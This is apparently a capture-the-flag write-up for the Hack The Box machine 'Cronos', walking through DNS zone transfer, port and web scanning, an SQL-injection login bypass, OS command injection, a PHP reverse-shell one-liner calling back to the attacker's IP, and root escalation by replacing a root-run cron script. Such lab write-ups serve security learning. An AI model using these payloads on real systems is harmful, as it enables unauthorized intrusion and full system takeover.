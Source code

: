 # Cronos

## Information Gathering
10.10.10.13<br>
Cronos<br>

Software Versions
- OpenSSH 7.2p2
- ISC BIND 9.10.3-P4
- Apache httpd 2.4.18

This box only has the default apache ubuntu page when connecting to it. I see that there is a DNS server running on this box and have to assume that the domain name is cronos.htb. I also attempt to perform a zone tranfser using dig and see if there are any subdomains:
```bash
dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.18.0-2-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 28 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Fri Feb 25 12:42:45 EST 2022
;; XFR size: 7 records (messages 1, bytes 203)
```
Which has us stumble upon a subdomain admin.cronos.htb.

## Enumeration
Of course, start with your nmap scan.
```bash
# Nmap 7.92 scan initiated Wed Feb 23 14:54:17 2022 as: nmap -p- -A -oN nmap/all_ports.nmap 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up (0.028s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.2 - 4.9 (92%), Linux 4.8 (92%), Linux 4.9 (91%), Linux 3.12 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 (90%), Linux 3.16 - 4.6 (90%), Linux 3.18 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   27.78 ms 10.10.14.1
2   27.80 ms 10.10.10.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 23 14:56:51 2022 -- 1 IP address (1 host up) scanned in 154.78 seconds

```
I add both cronos.htb and admin.cronos.htb to my /etc/hosts file. Cronos.htb is running a web-applicication called Laravel. After a bit of poking around (looking at cookies, seeing if debugging mode is on) I come up with nothing. I also run a Nikto scan on both cronos.htb:
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.13
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HEAD Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ GET Server may leak inodes via ETags, header found with file /, inode: 2caf, size: 5b7cbd6fbb19d, mtime: gzip
+ OPTIONS Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: GET /icons/README: Apache default file found.
- Nikto v2.1.6/2.1.5
+ Target Host: cronos.htb
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Cookie XSRF-TOKEN created without the httponly flag
+ HEAD Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS Allowed HTTP Methods: GET, HEAD 
+ OSVDB-3092: GET /web.config: ASP config file is accessible.
+ OSVDB-3268: GET /css/: Directory indexing found.
+ OSVDB-3092: GET /css/: This might be interesting...
+ OSVDB-3233: GET /icons/README: Apache default file found.

```
And on admin.cronos.htb:
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: admin.cronos.htb
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Cookie PHPSESSID created without the httponly flag
+ HEAD Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ QLSIJBUM Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ GET /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3233: GET /icons/README: Apache default file found.
- Nikto v2.1.6/2.1.5
+ Target Host: admin.cronos.htb
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Cookie PHPSESSID created without the httponly flag
+ HEAD Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ EJHOKXQB Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ GET /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3233: GET /icons/README: Apache default file found.

```
Because admin.cronos.htb seems more interesting, I turn my attention to it and run a Gobuster scan:
```bash
/welcome.php          (Status: 302) [Size: 439] [--> index.php]
/index.php            (Status: 200) [Size: 1547]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/config.php           (Status: 200) [Size: 0]
/session.php          (Status: 302) [Size: 0] [--> index.php]
/server-status        (Status: 403) [Size: 304]
```

## Exploitation
After a bit of fiddling around, I figure out that there is a SQLi in the username POST parameter. The classic <b>' OR 1=1-- </b> authenticates you. In welcome.php there are two commands that you can run from the web application: traceroute and ping. Both commands are vulnerable to OS command injection. Using the payload:
```php
; php -r '$sock=fsockopen("10.10.14.122",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
```
While having a listener running gives you foothold onto the machine. 

## Privilege Escalation
For a while I thought I needed to pivot over to the user noulis by accessing the internal MySQL database and cracking password hashes. The MySQL username, password, and database name are all provided in config.php. However, this does not work. I also run LinEnum.sh and find something interesting in /etc/crontab
```bash
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
As www-data I have write permissions to artisan. I replace the script with a reverse shell php script, start a listener, and catch a root shell.